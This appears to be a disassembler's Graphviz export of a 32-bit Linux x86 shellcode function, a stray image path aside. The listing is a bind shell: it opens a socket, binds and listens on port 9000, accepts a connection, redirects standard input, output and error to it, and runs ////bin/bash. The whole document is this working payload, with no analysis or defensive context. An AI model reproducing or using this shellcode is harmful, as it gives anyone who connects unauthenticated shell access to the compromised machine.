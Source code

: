 digraph code {
	graph [bgcolor=azure fontsize=8 fontname="Courier" splines="ortho"];
	node [fillcolor=gray style=filled shape=box];
	edge [arrowhead="normal"];
	"0x08048060" [URL="entry0/0x08048060", fillcolor="palegreen",color="yellow", fontname="Courier",label=";-- section..text:\l;-- _start:\l;-- eip:\l(fcn) entry0 253\l  entry0 ();\l0x08048060      xor eax, eax                                           ; [01] -r-x section size 253 named .text\l0x08048062      xor ebx, ebx\l0x08048064      xor ecx, ecx\l0x08048066      xor edx, edx\l0x08048068      mov al, 0x66                                           ; 'f' ; 102\l0x0804806a      mov bl, 1\l0x0804806c      push ecx\l0x0804806d      push 1                                                 ; 1\l0x0804806f      push 2                                                 ; 2\l0x08048071      mov ecx, esp\l;-- syscall.16777830:\l0x08048073      int 0x80\l0x08048075      add esp, 0xc\l0x08048078      xor edx, edx\l0x0804807a      mov edx, eax\l0x0804807c      xor eax, eax\l0x0804807e      xor ebx, ebx\l0x08048080      mov bl, 0xe                                            ; 14\l0x08048082      mov al, 0x66                                           ; 'f' ; 102\l0x08048084      xor ecx, ecx\l0x08048086      push 4                                                 ; 4\l0x08048088      push esp\l0x08048089      push 2                                                 ; 2\l0x0804808b      push 1                                                 ; 1\l0x0804808d      push edx\l0x0804808e      mov ecx, esp\l;-- syscall.socketcall:\l0x08048090      int 0x80\l0x08048092      xor eax, eax\l0x08048094      mov eax, edx\l0x08048096      add esp, 0x14\l0x08048099      xor edx, edx\l0x0804809b      mov edx, eax\l0x0804809d      xor eax, eax\l0x0804809f      xor ebx, ebx\l0x080480a1      xor ecx, ecx\l0x080480a3      mov al, 0x66                                           ; 'f' ; 102\l0x080480a5      mov bl, 2\l0x080480a7      sub esp, 8\l0x080480aa      push ecx\l0x080480ab      push 0x2823                                            ; '#('\l0x080480af      push 2                                                 ; 2\l0x080480b2      mov ecx, esp\l0x080480b4      push 0x10                                              ; 16\l0x080480b6      push ecx\l0x080480b7      push edx\l0x080480b8      mov ecx, esp\l;-- syscall.socketcall.0:\l0x080480ba      int 0x80\l0x080480bc      add esp, 0x1c\l0x080480bf      mov eax, edx\l0x080480c1      mov edx, eax\l0x080480c3      xor eax, eax\l0x080480c5      xor ebx, ebx\l0x080480c7      xor ecx, ecx\l0x080480c9      mov al, 0x66                                           ; 'f' ; 102\l0x080480cb      mov bl, 4\l0x080480cd      push 2                                                 ; 2\l0x080480cf      push edx\l0x080480d0      mov ecx, esp\l;-- syscall.socketcall.1:\l0x080480d2      int 0x80\l0x080480d4      add esp, 8\l0x080480d7      xor eax, eax\l0x080480d9      xor ebx, ebx\l0x080480db      xor ecx, ecx\l0x080480dd      mov eax, edx\l0x080480df      mov edx, eax\l0x080480e1      xor eax, eax\l0x080480e3      mov al, 0x66                                           ; 'f' ; 102\l0x080480e5      xor ebx, ebx\l0x080480e7      mov bl, 5\l0x080480e9      push ecx\l0x080480ea      push ecx\l0x080480eb      push edx\l0x080480ec      mov ecx, esp\l;-- syscall.socketcall.2:\l0x080480ee      int 0x80\l0x080480f0      add esp, 0xc\l0x080480f3      xor esi, esi\l0x080480f5      xor edi, edi\l0x080480f7      mov esi, eax\l0x080480f9      mov edi, edx\l0x080480fb      xor eax, eax\l0x080480fd      mov al, 0x66                                           ; 'f' ; 102\l0x080480ff      xor ebx, ebx\l0x08048101      mov bl, 0xd                                            ; 13\l0x08048103      mov ecx, edx\l;-- syscall.socketcall.3:\l0x08048105      int 0x80\l0x08048107      xor eax, eax\l0x08048109      mov al, 5\l0x0804810b      mov ebx, edx\l;-- syscall.open:\l0x0804810d      int 0x80\l0x0804810f      xor eax, eax\l0x08048111      xor ebx, ebx\l0x08048113      xor ecx, ecx\l0x08048115      mov al, 0x3f                                           ; '?' ; 63\l0x08048117      mov ebx, esi\l0x08048119      push ecx\l0x0804811a      pop ecx\l;-- syscall.dup2:\l0x0804811b      int 0x80\l0x0804811d      xor eax, eax\l0x0804811f      mov al, 0x3f                                           ; '?' ; 63\l0x08048121      mov ebx, esi\l0x08048123      xor ecx, ecx\l0x08048125      mov cl, 1\l;-- syscall.dup2.0:\l0x08048127      int 0x80\l0x08048129      xor eax, eax\l0x0804812b      mov al, 0x3f                                           ; '?' ; 63\l0x0804812d      mov ebx, esi\l0x0804812f      mov ecx, ecx\l0x08048131      mov cl, 2\l;-- syscall.dup2.1:\l0x08048133      int 0x80\l0x08048135      xor eax, eax\l0x08048137      push eax\l0x08048138      push 0x68736162                                        ; 'bash'\l0x0804813d      push 0x2f6e6962                                        ; 'bin/'\l0x08048142      push 0x2f2f2f2f                                        ; '////'\l0x08048147      mov ebx, esp\l0x08048149      push eax\l0x0804814a      mov edx, esp\l0x0804814c      push ebx\l0x0804814d      mov ecx, esp\l0x0804814f      mov al, 0xb                                            ; 11\l;-- syscall.execve:\l0x08048151      int 0x80\l0x08048153      xor eax, eax\l0x08048155      xor ebx, ebx\l0x08048157      mov al, 1\l0x08048159      mov bl, 1\l;-- syscall.exit:\l0x0804815b      int 0x80\l"]
}
